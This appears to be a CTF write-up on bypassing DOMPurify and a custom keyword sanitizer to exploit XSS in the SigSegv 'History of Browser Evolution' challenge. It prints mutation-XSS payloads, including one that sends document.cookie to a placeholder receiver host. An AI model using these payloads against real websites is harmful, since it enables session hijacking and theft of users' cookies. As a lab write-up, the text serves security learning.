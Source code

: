 This year SigSegv qualifiers are back 

# XSS challenge: History of Browser Evolution

You are tasked to steal the cookie from a web page. The target machine is running "Chrome with recent updates", so it is advisable to test it in chrome.


You have one URL to test your payloads and the other one to validate your flag. The validation page will pass the link to a bot which will trigger XSS.
```
http://qual-challs.rtfm.re:8080/
http://qual-challs.rtfm.re:8080/check
```
![Image](https://eqqn.github.io/images/hobe.jpg)
### Finding injection point
Since there is no obvious forms or input elements apparent, we look at the page source ( follow comments for my thought proccess ) :

```js
    var nuclearSanitizer = function (dirty) {
        var clean = dirty;
     //## These are directives banned by Developer
        forbiddenWords = ["onerror", "onload", "onunload", "img", "focus"];    
        
        for (const fw of forbiddenWords) {
            if (dirty.toLowerCase().includes(fw)) {
                console.log(fw);
                clean = "";
                break;
            }
        }
        return clean;
    }
    
    var getUrlParam = function (name) {
        var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)");
        var r = unescape(window.location.search.substr(1)).match(reg);
        if (r != null) return r[2];
        return null;
    }

    var layout = getUrlParam("layout");      //## This is where the URL parameter is taken
    var clean = DOMPurify.sanitize(layout);
    
    // Hehe I made a custom sanitizer, no worriez
    clean = nuclearSanitizer(clean);

    var injectionPoint = document.getElementById("injection");
    injectionPoint.innerHTML = clean;
    injectionPoint.innerHTML = injectionPoint.innerHTML;
```

The *getUrlParam* function takes url parameter *layout* and puts it inside "injection" element of the webpage. 
Queries such as ` http://qual-challs.rtfm.re:8080/?layout=YOURSTRINGHERE ` will render on the page.

![Image](https://eqqn.github.io/images/hobe2.jpg)

However there is pesky **DOMPurify.sanitize(layout);** getting in our way of triggering the desired alert(1) box.
After giving automated tools a try ( XSStrike and Burpsuite) and trying to concatenate some form of <script>alert(1)</script> to render on the page I kept getting owned by the sanitizer. 

Alternatives from XSS cheat sheets[1][2]( that apply to chrome) didn't seem to work. However my friend point me to an interesting resource - DOMPurify bypass.

### Bypassing DOMPurify

There is an excellent write-up describing a recent vulnerability in DOMPurify, that uses browsers auto-fix feature to close the tags of HTML elements that are not properly matching.

More on this behaviour here : https://research.securitum.com/dompurify-bypass-using-mxss/

So the PoC payload referenced in the article looks like this : 

` <svg></p><style><a id="</style><img src=1 onerror=alert(1)>"> `
However it uses both **img** and **onerror** tags stripped by *NuclearSanitizer()*, so we can look once again at the cheat sheets and find other components that could do the trick. 

![Image](https://eqqn.github.io/images/hobe3.jpg)

`?layout=<svg></p><style><a id="</style><iframe src=1 onmouseover=alert(1)>"> `
With this I popped the first alert. DOMPurify is bypassed. Great, now to make it run without interaction and onto exfiltration. In this part you can get creative.

To steal the cookie, you need to make a request and transfer it to a domain you control. A convenient web service for that is "Requestbin", which allows you to make receive requests on their servers.

`?layout=<svg></p><style><a id="</style><iframe src=javascript:document.location='hxxps://REPLACE-WITH-YOUR-RECEIVER/'+ document.cookie>">`

Once we submit the full URL into the validator, a HTTP request is made to our cookie receiver server :

![Image](https://eqqn.github.io/images/hobe4.jpg)

`flag=sigsegv{pur1fy_mY_s0ul}`

This was a fun challenge, and I got to learn XSS the fun way. 


[1] Web Security Academy XSS cheat sheet https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 

[2] Payload ALL the things XSS repo https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection


